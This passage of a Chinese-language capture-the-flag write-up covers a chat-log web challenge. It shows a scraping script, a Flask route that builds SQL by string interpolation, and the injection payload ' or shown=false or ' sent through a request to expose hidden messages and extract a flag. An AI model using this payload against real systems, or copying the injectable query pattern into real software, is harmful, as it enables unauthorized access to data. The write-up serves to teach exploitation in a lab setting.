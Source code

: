 ```python
    print(conversationId, title)
    # Get the conversation content
    conversationHTML = x.get(f"https://{HOST}/view?conversation_id={conversationId}").text
    soup = BeautifulSoup(conversationHTML, "html.parser")
    # <div class="container pt-3">
    #     <h2>聊天记录：prompt</h2>
    #     <div style="white-space: pre-line;">response</div>
    # </div>
    content = soup.find("div", class_="container pt-3")
    prompt = content.find("h2").text
    response = content.find("div").text
    conversations[conversationId] = {
        "prompt": prompt,
        "response": response
    }
    m = FLAG_REGEX.search(response)
    if m:
        print("* Flag found! Prompt:", prompt)
        print(m.group())
        break
```

### 窥见未知

根据标题的提示，合理推测有一条对话被隐藏了，而隐藏的对话很有可能含有第二个 flag。查看附件，重点关注如下代码：

```python
@app.route("/list")
def list():
    results = execute_query("select id, title from messages where shown = true", fetch_all=True)
    messages = [Message(m[0], m[1], None) for m in results]
    return render_template("list.html", messages=messages)

@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

注意到可疑的 `shown` 字段，遂尝试注入如下 Query：

```
' or shown=false or '
```

那么最终执行的 SQL 语句为：

```sql
select title, contents from messages where id = '1' or shown=false or ''
```

即可查看未显示的对话。据此编写脚本：

```python
r = x.get(f"https://{HOST}/view?conversation_id=1' or shown=false or '")
m = FLAG_REGEX.search(r.text)
if m:
    print("* Flag 2 found!")
    print(m.group())
```
